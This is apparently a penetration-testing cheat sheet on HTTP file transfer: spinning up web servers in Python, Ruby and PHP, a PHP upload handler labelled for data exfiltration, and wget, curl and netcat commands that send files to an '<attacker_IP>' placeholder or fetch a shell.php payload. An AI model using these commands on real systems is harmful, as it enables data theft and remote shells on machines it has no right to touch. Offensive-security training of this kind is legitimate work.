 # HTTP

## 01 - Server Setup

### 1.1 - Python

Note: by default it runs the service with port 8000 if it is not specified

```
$ sudo python2 -m SimpleHTTPServer 80

$ sudo python3 -m http.server 80
```

### 1.2 - Ruby

- **Host a webserver via Ruby**

Note: you'll need to install webrick for ruby (by default it'll use port 8080 if port is not specified)

- To install the ruby gem:

`$ gem install webrick`

- To install in Debian/Ubuntu

```
$ sudo apt install ruby-webrick

$ sudo ruby -run -ehttpd . -p80
```

### 1.3 - PHP

- **Data exfiltration server side**

```php
<?php
/*
$ sudo mkdir -p /var/www/html/uploads/ && \
sudo chown www-data:www-data /var/www/html/

$ curl <-F | --form> fileToUpload=@file.txt http[s]://<attacker_IP>/upload.php

$ curl <-T | --upload-file> fileToUpload=@file.txt http[s]://<attacker_IP>/upload.php
*/

$target_directory = "uploads/"
$target_file = $target_directory . basename($_FILES["fileToUpload"]["name"]);

echo "Source=" . $_FILES["fileToUpload"]["name"] . "<br/>";
echo "Target path=" . $target_directory . "<br/>";
echo "Size=" . $_FILES["fileToUpload"]["size"] . "<br/>";

if(move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
    echo "The file " . basename($_FILES["fileToUpload"]["name"]) . " has been uploaded";
} else {
    echo "There was an error uploading the file, please try again!";
}
?>


<!DOCTYPE html>
<html>
    <body>
        <form method="post" enctype="multipart/form-data">
            Select File to upload:
            <input type="file" name="fileToUpload" id="fileToUpload">
            <input type="submit" name="Upload">
        </form>
    </body>
</html>
```

- **Host a webserver via PHP**

```
$ sudo php -S 0.0.0.0:80

$ sudo systemctl start apache2
```

## 02 - Usage

### 2.1 - Download

#### 2.1.1 - Wget

```
$ wget -O rsh.php http://<IP>:<PORT>/shell.php

$ wget --no-check-certificate https://<IP>/file.tar.gz
```

- **Resume partially downloaded file**

`$ wget -c http://<IP>/file.tar.gz`

- **Download multiple files with different URLs from a text file list**

`$ wget -i download-files-urls.txt`

#### 2.1.2 - cURL

```
$ curl -O -C - http://<IP>:<PORT>/shell.php

$ curl -o rsh.php http://<IP>:<PORT>/shell.php

$ curl -o downloaded.tar.gz http[s]://<IP>/file.tar.gz
```

- Interact with http proxy server tunnel

`$ curl -p -x http://<proxy_IP> http://website.com`

#### 2.1.3 - aria2c

`$ aria2c http://<IP>/file.tar.gz`

### 2.2 - Upload

#### 2.2.1 - Wget

```
$ wget --post-file=file.txt <attacker_IP>

$ sudo nc -lnvp 80
```

#### 2.2.2 - cURL

`$ curl -T /path/to/file.txt http://<IP>`

- Upload file via post request form

`$ curl -F file=@/path/to/file.txt http://<IP>/post`

- Upload file via post HTTP request

```
$ curl -X POST -d @/path/to/file.txt <IP>

$ sudo nc -lnvp 80 > file.txt
```
